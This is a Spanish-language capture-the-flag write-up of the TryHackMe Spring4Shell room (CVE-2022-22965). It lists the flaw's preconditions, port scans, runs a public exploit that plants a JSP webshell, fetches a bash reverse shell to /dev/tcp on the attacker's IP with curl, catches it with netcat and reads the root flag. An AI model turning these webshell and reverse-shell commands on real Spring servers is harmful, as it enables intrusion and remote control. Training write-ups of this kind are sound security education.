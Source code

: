 ```yaml
---
layout: single
author: Bast1ant1c
title: THM Spring4Shell
excerpt: "Vamos a resolver la maquina Spring4SHell de TryHackMe. ¡Let's hack!"
date: 2022-04-13
classes: wide
header:
  teaser: /assets/images/spring4shell/inicio.png
  teaser_home_page: true
categories:
  - TryHackMe
tags:
  - Writeup
  - Spring4shell
---
```


<p align="center">
<img src="/assets/images/spring4shell/inicio.png">
</p>

¡Hola!
En esta ocasión vamos a hablar de la maquina **Spring4shell**. 

[TryHackMe](https://tryhackme.com/) lanzó hace unas semanas esta máquina para aprender acerca de una de las vulnerabilidades más sonadas del momento.

El impacto de la vulnerabilidad asciende al nivel de que, [piratas informáticos](https://backtrackacademy.com/articulo) sacaron provecho de este acontecimiento para ejecutar el malware de botnet MIRAI en Singapur, descargando el programa malicioso en la carpeta `/tmp` y ejecutarlo, luego de un cambio de permisos bajo el comando `chmod`.

Vamos a ver un poco de la vulnerabilidad, limitaciones, explotación y remediaciones.

## VULNERABILIDAD

En marzo de 2022 se hace [pública](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) la vulnerabilidad de **ejecución remota de comandos** en el marco de Java Spring, específicamente en `Spring Cloud Functions` y `Spring Core`, generando un gran impacto en el framework.

El mundo de **Spring Framework** presenta una vulnerabilidad de ejecución remota de comandos, a través de una _webshell_ la cual es posible luego de forzar a escribir un archivo de extensión `.jsp` en el servidor web.

El principal **riesgo** de el éxito en la explotación de esta vulnerabilidad se presenta en el potencial _escalamiento de privilegios_ para lograr un acceso total al servidor víctima y a la infraestructura de la organización afectada por el ataque.

## LIMITACIONES

Las condiciones para poder explotar la vulnerabilidad **Spring4shell** son las siguientes:

* JDK 9+.
* Spring Framework (<5.2 / 5.2.0-19 / 5.3.0-17).
* Apache Tomcat como servidor de Spring, empaquetado como WAR.
* Las dependencias spring-webmvc y/o spring-webflux como componentes del marco de Spring.
* Uso de hacktools.

## EXPLOTACIÓN

Para realizar la máquina, creamos un directorio y a su vez subdirectorios para organizar la información necesaria.

```zsh
❯ mkdir spring4shell
❯ cd !$
cd spring4shell
❯ mkdir nmap exploit
```

Realizamos un **reconocimiento** por medio de ping, identificando por el TTL (Time To Live) que la maquina es _Linux_.

```zsh
❯ ping -c 1 10.10.25.142
PING 10.10.25.142 (10.10.25.142) 56(84) bytes of data.
64 bytes from 10.10.25.142: icmp_seq=1 ttl=63 time=195 ms

--- 10.10.25.142 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 194.521/194.521/194.521/0.000 ms
```

Hacemos un **escaneo de puertos** para detectar cuales de estos están abiertos para identificar vulnerabilidades en los mismos.

```zsh
❯ sudo nmap -p- --open -sS --min-rate 5000 10.10.25.142 -n -Pn -oG inicial
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:28 -05
Nmap scan report for 10.10.25.142
Host is up (0.31s latency).
Not shown: 52759 filtered tcp ports (no-response), 12773 closed tcp ports (reset)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8080/tcp open  http-proxy
```

Luego de identificar los puertos **22**, **80** y **8080**, se procede a detectar servicios y versiones activos.

```zsh
❯ sudo nmap -p22,80,8080 -sCV 10.10.25.142 -n -Pn -oG servicios
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 09:35 -05
Nmap scan report for 10.10.25.142
Host is up (0.27s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 0c:92:70:6c:b6:df:1f:0b:45:ed:42:8d:b6:38:cc:67 (RSA)
|   256 18:af:36:34:c9:2e:a4:6f:7a:27:31:e8:ef:6c:84:fb (ECDSA)
|_  256 78:a6:1c:8a:16:5e:a6:29:29:a9:99:d0:66:9c:5e:06 (ED25519)
80/tcp   open  http    nginx 1.20.2
|_http-title: Vulnerable
|_http-server-header: nginx/1.20.2
8080/tcp open  http    nginx 1.20.2
|_http-title: Index of /
| http-ls: Volume /
| SIZE  TIME               FILENAME
| 1260  03-Apr-2022 02:30  exploit.zip
|_
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: nginx/1.20.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

En el navegador accedemos a la IP bajo el puerto 8080 y procedemos a descargar el archivo **exploit.zip**.

<p align="center">
<img src="/assets/images/spring4shell/exploitzip.png">
</p>

Movemos el archivo a nuestra carpeta y procedemos a descomprimir el archivo con la utilidad `unzip`.

```zsh
❯ mv ~/Descargas/firefox/exploit.zip .
❯ unzip exploit.zip
Archive:  exploit.zip
[exploit.zip] exploit.py password: 
  inflating: exploit.py              
❯ ls
 exploit.py   exploit.zip
```

La información del script descargado se puede obtener ingresando al GitHub de [BobTheShoplifter](https://github.com/BobTheShoplifter/Spring4Shell-POC).

Procedemos a ver el funcionamiento del script.

```python
❯ python3 exploit.py
usage: exploit.py [-h] [-f FILENAME] [-p PASSWORD] [-d DIRECTORY] url
exploit.py: error: the following arguments are required: url
```

Ahora ejecutamos el script con la URL victima (_FILENAME_, _PASSWORD_ y _DIRECTORY_ son opcionales).

```python
❯ python3 exploit.py http://10.10.25.142/
Shell Uploaded Successfully!
Your shell can be found at: http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=whoami
```

Como indica la salida del script, la webshell ha sido cargada en el servidor con éxito, por lo tanto, ya tenemos la **capacidad** de ejecutar comandos de manera remota.

<p align="center">
<img src="/assets/images/spring4shell/vulnerable.png">
</p>
<p align="center">
<img src="/assets/images/spring4shell/intrusion.png">
</p>

Ahora vamos a subir una **reverseshell** para ganar acceso a la maquina!

Crearemos un archivo `shell.sh`.

```zsh
nano shell.sh

#!/bin/bash
bash -i >& /dev/tcp/10.9.3.40/1234 0>&1
```

Luego de crear el archivo, vamos a cargar este al servidor vulnerable, por medio de un servidor local de python.

```zsh
❯ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Ejecutaremos en el navegador la siguiente **URL** para cargar nuestra shell en la carpeta `/tmp` de la víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=curl http://10.9.3.40:8000/shell.sh -o /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/shell.png">
</p>

Nuestra shell se encuentra ahora en el servidor vulnerable!

Vamos a ponernos en escucha con la utilidad netcat, en esta ocasión bajo el puerto **1234**.

```zsh
❯ nc -lvnp 1234
listening on [any] 1234 ...
```

Procedemos a ejecutar el archivo en el servidor víctima.

* http://10.10.25.142/tomcatwar.jsp?pwd=thm&cmd=bash /tmp/shell.sh

<p align="center">
<img src="/assets/images/spring4shell/admin.png">
</p>

Como se puede ver en la imagen anterior, hemos logrado obtener una **shell** en la maquina! 

Ahora vamos a realizar un _tratamiento_ de la TTY, para lograr una mayor fluidez en la consola, para ello vamos a ejecutar los siguientes comandos iniciando en la maquina víctima.

```zsh
script /dev/null -c bash
^Z
stty raw -echo; fg
reset
xterm
export XTERM=xterm
export SHELL=bash
```

Luego de que logramos una terminal fluida, vamos a buscar la **flag** y leerla!

En esta ocasión solo tenemos una **flag**.

Solo mostraré los primeros 10 dígitos de está.

```zsh
root@spring4shell:/# ls /root
flag.txt
root@spring4shell:/# head -c 10 /root/flag.txt ; echo
THM{NjAyNz
```

**¡Ya está!** 

<p align="center">
<img src="/assets/images/spring4shell/finish.png">
</p>


Por último, les recomiendo **actualizar** sus frameworks de Spring o generar controles pertinentes para que sus sistemas no sean vulnerables!

_¡Que tengan un buen día en el planeta donde se encuentren!_

**Nos vemos en otro bit.**
